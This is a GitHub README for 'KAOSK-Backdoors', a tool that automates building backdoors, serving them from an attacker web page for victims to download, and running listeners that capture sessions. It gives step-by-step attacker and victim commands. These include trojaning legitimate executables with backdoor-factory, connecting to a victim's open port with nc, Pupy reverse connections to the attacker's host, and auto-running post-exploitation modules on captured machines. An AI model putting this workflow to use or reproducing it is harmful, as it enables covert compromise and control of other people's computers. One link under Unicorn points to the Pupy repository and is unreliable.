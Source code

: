 # KAOSK-Backdoors
==========
It's a tool that automate: 
+ the installation of some Backdoor's creation programs
+ the creation of the backdoors to use in a victim machine
+ a web where you can download the backdoors created
+ the listener of the backdoors downloaded
+ the actions of the listener

## Example
Using Kali2 as the attacker with IP: 192.168.0.100

Using any machine as the victim in the same network as the attacker.

Run in Kali:
+ git clone https://github.com/carlospolop/KAOSK-backdoors.git
+ python ./install.py
+ python ./create_backdoors.py 192.168.0.100
+ python ./handler.py 192.168.0.100

In the victim machine:

Use a browser and navigate to 192.168.0.100/back and you will see the backdoors created before in the attacker machine.
Download the backdoor that you want to use.

Run the backdoor.


You will have a session of the victim's machine in Kali.

If you had chosen a backdoor created using msfvenom, backdoor-factory or unicorn, you will have a metasploit session of the victim. The metasploit's sessions can be configured to automatically run post modules, meterpreter commands and shell commands in the config folder. This means that when you capture a metasploit sessions this modules and commands will run automatically.

## How to configure which post modules, meterpreter commands and shell commands automatically run
You just have to go to the config folder and there you will find some folders of differents OS. Go inside anyone and you will find some text documents where you can write which post modules, meterpreters commands and shell commands run when you capture a session in a machine that uses the OS selected.

## Install
python ./install.py

## Create Backdoors
python ./create_backdoors.py <IP_attacker>

## Start handler
python ./handler.py <IP_attacker>


# To Know about the backdoors
--------------------
## Backdoors used:
+ Backdoor-factoy
+ MiaoMiao
+ Msfvenom
+ Pupy
+ RSPET
+ Unicorn

## Backdoor-factory
The backdoor-factory introduce the backdoor inside executables.

If you want to corrupt a executable, you just have to download the original, move it to the correct folder inside ./BDF_prepared and run python ./create_backdoors.py <IP_attacker> (or python ./backdoor-factoryAuto.py <IP_attacker>)

https://github.com/secretsquirrel/the-backdoor-factory.git

## MiaoMiao
This backdoor open a port in the victims machine and the attacker connects to it. The default port is 55555
To use this backdoor you have to run:
+ Victim: Run MiaoMiamo_folder/src_backdoor/server_dist/newest_version
+ Attacker: nc IP_Victim 55555 -vv

https://github.com/marc0l92/MiaoMiao_project.git

## Msfvenom
Of course.

## Pupy
Creates differents types of backdoors and use it's own listener. It is all automated and the process followed to use these backdoors is:
+ Victim: Run the file create using ./pupygen.py -f lin_x64  connect --host IP_Attacker
+ Attacker: ./pupysh.py

https://github.com/n1nj4sec/pupy.git

## RSPET
To use this backdoor you have to run:
+ Victim: Run python RSPET_folder/Client/rspet_client.py <IP_Attacker>
+ Attacker: (This part is automated) Run Server > rspet_server.py 

https://github.com/panagiks/RSPET.git

## Unicorn
Creates differents types of backdoors and it is all automated.
Use metasploit as listener.

https://github.com/n1nj4sec/pupy.git
